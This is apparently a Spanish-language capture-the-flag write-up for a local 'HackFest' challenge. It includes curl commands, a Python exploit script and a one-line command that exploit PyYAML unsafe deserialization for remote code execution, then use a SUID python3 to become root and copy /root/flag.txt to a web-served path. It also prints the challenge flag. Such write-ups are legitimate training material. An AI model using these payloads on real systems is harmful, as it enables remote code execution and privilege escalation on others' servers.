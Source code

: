 # 🚩 HackFest CTF - Writeup

## 🚀 **INICIO RÁPIDO**

```bash
# Levantar CTF
sudo docker-compose up -d

# Verificar funcionamiento
curl -s http://localhost:3000 | grep -o '<title>.*</title>'
```

**CTF disponible en:** http://localhost:3000

---

## 🎯 **EXPLOTACIÓN DIRECTA**

### **1. Reconocimiento**
```bash
# Información del sistema
curl -s http://localhost:3000/api/system | jq .
```

### **2. Explotar PyYAML RCE**
```bash
# Probar endpoint vulnerable
curl -s -X POST http://localhost:3000/config \
  -H "Content-Type: application/x-yaml" \
  -d "test: value"

# Verificar RCE
curl -s -X POST http://localhost:3000/config \
  -H "Content-Type: application/x-yaml" \
  -d $'!!python/object/apply:os.system\n- id'
```

### **3. Escalada de Privilegios + Exfiltración**
```bash
# Usar python3 SUID para obtener root y copiar flag
curl -s -X POST http://localhost:3000/config \
  -H "Content-Type: application/x-yaml" \
  -d $'!!python/object/apply:os.system\n- python3 -c "import os; os.setuid(0); os.system(\'cp /root/flag.txt /app/static/flag.txt && chmod 644 /app/static/flag.txt\')"'
```

### **4. Obtener Flag**
```bash
# Descargar flag exfiltrada
curl -s http://localhost:3000/uploads/flag.txt
```

---

## 🐍 **SCRIPT DE EXPLOIT**

```python
#!/usr/bin/env python3
import requests

BASE_URL = "http://localhost:3000"

def exploit():
    print("🚀 HackFest CTF - Exploit")

    # Payload PyYAML RCE + Escalada + Exfiltración
    payload = """!!python/object/apply:os.system
- python3 -c "import os; os.setuid(0); os.system('cp /root/flag.txt /app/static/flag.txt && chmod 644 /app/static/flag.txt')" """

    print("1. Explotando PyYAML RCE...")
    r = requests.post(f"{BASE_URL}/config",
                     headers={'Content-Type': 'application/x-yaml'},
                     data=payload)

    if r.status_code == 200:
        print("✅ Exploit exitoso")

        print("2. Obteniendo flag...")
        flag_response = requests.get(f"{BASE_URL}/uploads/flag.txt")

        if flag_response.status_code == 200:
            flag = flag_response.text.split('\n')[0]  # Primera línea contiene la flag
            print(f"🏆 FLAG: {flag}")
        else:
            print("❌ Error obteniendo flag")
    else:
        print("❌ Error en exploit")

if __name__ == "__main__":
    exploit()
```

---

## 🔧 **DETALLES TÉCNICOS**

### **Vulnerabilidad**
- **PyYAML RCE**: `yaml.load()` con `UnsafeLoader`
- **Endpoint**: `/config` acepta YAML malicioso
- **Escalada**: `python3` con bit SUID permite ejecución como root

### **Arquitectura**
```
Cliente → Frontend (puerto 3000) → Backend (interno) → Sistema
```

### **Exfiltración**
- **Origen**: `/root/flag.txt` (solo root puede leer)
- **Destino**: `/app/static/flag.txt` (mapeado internamente)
- **Acceso**: `http://localhost:3000/uploads/flag.txt`

---

## 🏆 **FLAG**
```
HACKFEST{y4ml_rce_si_has_llegado_eres_god_freeeee}
```

---

## ⚡ **COMANDO ÚNICO**

```bash
# Exploit completo en una línea
curl -s -X POST http://localhost:3000/config -H "Content-Type: application/x-yaml" -d $'!!python/object/apply:os.system\n- python3 -c "import os; os.setuid(0); os.system(\'cp /root/flag.txt /app/static/flag.txt && chmod 644 /app/static/flag.txt\')"' && curl -s http://localhost:3000/uploads/flag.txt
```
